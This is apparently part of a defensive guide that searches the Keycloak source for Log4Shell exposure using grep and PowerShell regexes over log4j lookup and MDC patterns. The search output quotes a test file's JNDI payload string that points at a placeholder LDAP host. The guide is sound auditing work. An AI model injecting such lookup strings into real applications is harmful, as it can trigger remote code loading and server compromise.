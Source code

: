 **PowerShell:**

```powershell
PS> Get-ChildItem -Path .\keycloak-main\  -Include "*.java","*.properties","*.xml","*.json","*.yaml","*.yml" -Recurse | Select-String -Pattern "%(X|mdc|MDC)\{\s*.*?\s*\}" -CaseSensitive
keycloak-main\core\src\main\java\org\keycloak\Log4ShellExposureTestFormatMsgNoLookupsBypass.java:62:        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern",
"${ctx:InsecureVariable} %X{TEST}- %m%n"));
keycloak-main\testsuite\integration-arquillian\servers\app-server\jetty\common\src\test\resources\log4j.properties:5:log4j.appender.stdout.layout.ConversionPattern=%d{HH:mm:ss,SSS} %mdc{clientNumber2}
%-5p %t %MDC{clientNumber3} [%c] %m%n
keycloak-main\testsuite\model\src\test\resources\log4j.properties:22:keycloak.testsuite.logging.pattern=%d{HH:mm:ss,SSS} %-5p %X{clientNumber} [%c] (%t) %m%n
...
```


## Search for expression usage

Another regex to identify usage of expressions based on log4j [prefixes](https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java#L103) like `${ctx:xxx}`, `${map:xxx}` ...

**Bash:**

```bash
$ grep -r --include "*.java" --include "*.properties" --include "*.xml" --include "*.json" --include "*.yaml" --include "*.yml" -nwE '\$\{\s*(ctx|log4j|sys|env|main|marker|java|base64|lower|upper|sd|map|jndi|jvmrunargs|date|event|bundle):.*?\s*\}'
core/src/main/java/org/keycloak/Log4ShellExposureTestFormatMsgNoLookupsBypass.java:36:    private static final String TEST_PAYLOAD = "${jndi:ldap://donotexists.com/test}";
core/src/main/java/org/keycloak/Log4ShellExposureTestFormatMsgNoLookupsBypass.java:62:        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern", "${ctx:InsecureVariable} %X{TEST}- %m%n"));
quarkus/runtime/src/main/java/org/keycloak/quarkus/runtime/cli/command/Main.java:56:            "Keycloak ${sys:kc.version}",
...
```

**PowerShell**:
```powershell
PS> Get-ChildItem -Path .\keycloak-main\ -Include "*.java","*.properties","*.xml","*.json","*.yaml","*.yml" -Recurse | Select-String -Pattern "\$\{\s*(ctx|log4j|sys|env|main|marker|java|base64|lower|upper|sd|map|jndi|jvmrunargs|date|event|bundle):.*?\s*\}" -CaseSensitive
keycloak-main\core\src\main\java\org\keycloak\Log4ShellExposureTestFormatMsgNoLookupsBypass.java:36:    private static final String TEST_PAYLOAD = "${jndi:ldap://donotexists.com/test}";
keycloak-main\core\src\main\java\org\keycloak\Log4ShellExposureTestFormatMsgNoLookupsBypass.java:62:        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern",
"${ctx:InsecureVariable} %X{TEST}- %m%n"));
keycloak-main\quarkus\runtime\src\main\java\org\keycloak\quarkus\runtime\cli\command\Main.java:56:            "Keycloak ${sys:kc.version}",
...
``` 
